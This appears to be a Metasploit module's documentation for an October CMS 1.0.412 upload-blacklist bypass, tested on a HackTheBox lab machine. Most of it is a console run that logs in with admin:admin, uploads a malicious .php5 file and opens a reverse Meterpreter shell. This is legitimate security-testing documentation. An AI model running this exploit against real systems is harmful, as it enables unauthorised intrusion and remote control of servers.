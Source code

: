
## Description
An authenticated user with permission to upload and manage media contents can
upload various files on the server. The application prevents the user from
uploading PHP code by checking the file extension. It uses blacklist based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

## Vulnerable  Sorftware
https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Author
Anti Räis (Discovery)
Touhid M.Shaikh (Metasploit Module)

## References
https://www.exploit-db.com/exploits/41936

## Tested on
HackTheBox October Machine (IP: 10.10.10.16)

## Verification
msf5 > use exploit/multi/http/october_upload_bypass_exec
msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
rhosts => 10.10.10.16
msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
verbose => true
msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf5 exploit(multi/http/october_upload_bypass_exec) > run 

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
[+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
[*] Trying to Login ......
[+] Authentication successful: admin:admin
[*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
[*] Sending stage (38247 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530

meterpreter > sysinfo 
Computer    : october
OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
Meterpreter : php/linux
meterpreter > 
